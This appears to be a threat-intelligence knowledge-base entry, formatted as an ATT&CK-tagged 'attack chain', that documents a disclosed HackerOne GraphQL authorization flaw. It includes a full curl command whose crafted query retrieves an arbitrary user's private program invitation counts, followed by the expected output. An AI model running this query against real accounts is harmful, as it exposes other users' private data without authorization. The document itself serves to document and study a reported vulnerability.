

---
tags:
  - graphql
  - information-disclosure
  - api
  - bug-bounty
  - hackerone
type: attack_chain
tools: []
tactics:
  - '[[Discovery]]'
verified: false
platforms:
  - Web
submitted: true
complexity: low
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Query-User-Private-Invitations-via-GraphQL]]'
step_count: 1
techniques:
  - '[[Account Discovery]]'
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T17:30:35.100Z'
description: >-
  An attack chain exploiting inadequate authorization in HackerOne's GraphQL API
  to disclose the count of private bug bounty program invitations for arbitrary
  users.
skill_level: intermediate
impact_level: medium
id: 2dd1782f-5eda-4b92-8032-43b6e66f2b41
validated: true
mitre_tactics:
  - '[[Discovery]]'
mitre_techniques:
  - '[[Account Discovery]]'
  - '[[Exploit Public-Facing Application]]'
---
# Information Disclosure of Private Program Invitations via HackerOne GraphQL API

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minutes |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard HTTP client like curl)

### Target Environment

- Web platform with GraphQL API
- Access to https://hackerone.com/graphql endpoint
- No authentication required for the vulnerable query

### Initial Access Requirements

- Public internet access
- No credentials needed due to unauthenticated endpoint

## Detailed Attack Procedures

### Step 1: Query User Invitation Counts
procedure: [[procedures/Query-User-Private-Invitations-via-GraphQL]]

**Objective**: Send a crafted GraphQL query to the HackerOne API to retrieve the total count of private program invitations for a target user, bypassing authorization checks.

**Instructions**: Use [[commands/graphql-query-user-invitations]] to execute the POST request to the GraphQL endpoint, targeting a specific username like "jobert". This query fetches the total_count from soft_launch_invitations across multiple states without proper access verification.

```bash
curl -X POST https://hackerone.com/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"query Directory_invitations_page($state_0:[InvitationStateEnum]!,$state_3:[InvitationStateEnum]!,$first_1:Int!,$size_2:ProfilePictureSizes!) {\n  user(username:\"jobert\") {\n    id,\n    ...F5\n  }\n}\nfragment F0 on User {\n  _soft_launch_invitations259p9N:soft_launch_invitations(state:$state_0,first:$first_1) {\n    total_count\n  },\n  id\n}\nfragment F1 on InvitationsSoftLaunch {\n  id,\n  team {\n    handle,\n    url,\n    name,\n    about,\n    bug_count,\n    base_bounty,\n    offers_bounties,\n    currency,\n    _profile_picture2rz4nb:profile_picture(size:$size_2),\n    id\n  },\n  expires_at,\n  state,\n  token\n}\nfragment F2 on Node {\n  id,\n  __typename\n}\nfragment F3 on InvitationInterface {\n  __typename,\n  ...F1,\n  ...F2\n}\nfragment F4 on User {\n  _soft_launch_invitations1WD3Qk:soft_launch_invitations(state:$state_0,first:$first_1) {\n    total_count,\n    edges {\n      node {\n        id,\n        ...F3\n      },\n      cursor\n    },\n    pageInfo {\n      hasNextPage,\n      hasPreviousPage\n    }\n  },\n  _soft_launch_invitations2FRMOR:soft_launch_invitations(state:$state_3,first:$first_1) {\n    total_count\n  },\n  id\n}\nfragment F5 on User {\n  id,\n  ...F0,\n  ...F4\n}","variables":{"state_0":["pending_terms","open","accepted"],"state_3":["pending_terms","open","accepted","cancelled","rejected"],"first_1":100,"size_2":"large"}}'
```

**Expected Output**: JSON response containing the total_count, e.g., {"data":{"user":{"_soft_launch_invitations259p9N":{"total_count":27}}}} indicating 27 private invitations.

**Success Indicators**:
- Response includes total_count greater than 0 for a non-owned user
- No authentication error; query executes successfully

## Attack Chain Summary

### Key Achievements

1. Unauthorized access to another user's private invitation data
2. Exposure of involvement in private bug bounty programs
3. Demonstration of GraphQL schema authorization flaw

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Account Discovery]]
- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Discovery]]

---

*Last updated: 2023-10-01T00:00:00Z*
